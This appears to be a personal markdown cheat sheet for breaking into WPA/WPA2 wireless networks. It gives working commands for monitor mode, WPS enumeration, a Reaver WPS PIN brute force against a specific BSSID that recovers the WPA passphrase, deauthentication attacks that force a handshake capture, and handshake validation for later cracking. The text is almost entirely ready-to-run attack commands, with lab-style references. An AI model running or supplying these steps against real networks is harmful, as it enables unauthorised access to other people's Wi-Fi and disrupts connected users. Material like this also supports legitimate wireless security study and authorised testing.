 
## Reconnaissance & Brute‑force (Personal)

### Prepare monitor mode

`sudo airmon-ng start wlan0` → creates `wlan0mon` (kill NM/wpa_supplicant if prompted).

### Scan & identify target

`airodump-ng wlan0mon` → find WPA/WPA2 networks; note **ENC/CIPHER/AUTH** fields.

### WPS enumeration

- `airodump-ng wlan0mon -c 1 --wps` → shows WPS flags (e.g., `2.0 LAB,DISP,PBC,KPAD`).
    
- `wash -i wlan0mon` → quick WPS list; `wash -j -i wlan0mon` → JSON (check `wps_locked` value `2` = not locked).
    
- OUI lookup: `grep -i "28-B2-BD" /var/lib/ieee-data/oui.txt` → vendor.
    

### Reaver setup (monitor quirk workaround)

```
sudo airmon-ng stop wlan0mon
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up && iwconfig
```

Run Reaver:  
`reaver -i mon0 -c 1 -b 28:B2:BD:F4:FF:F1`  
→ Attempts WPS PIN brute force; on success prints **WPS PIN** and **WPA PSK**.

---

## Cracking the MIC (4‑Way Handshake)

### Capture handshake

- Keep `airodump-ng -c 1 -w WPA wlan0mon` running.
    
- Force reconnect: `aireplay-ng -0 5 -a <AP> -c <CLIENT> wlan0mon`.
    
- Airodump header shows: `WPA handshake: <BSSID>` when captured.
    

### Validate handshake

`cowpatty -c -r WPA-01.cap` → confirms all necessary data present.

### Inspect in Wireshark (per your checklist)

- Filter `eapol`. Confirm **Msg 1..4** exist sequentially; **Key nonce** in **Msg 1** equals **Msg 3**; **Msg 4** has **no nonce**, only MIC.
    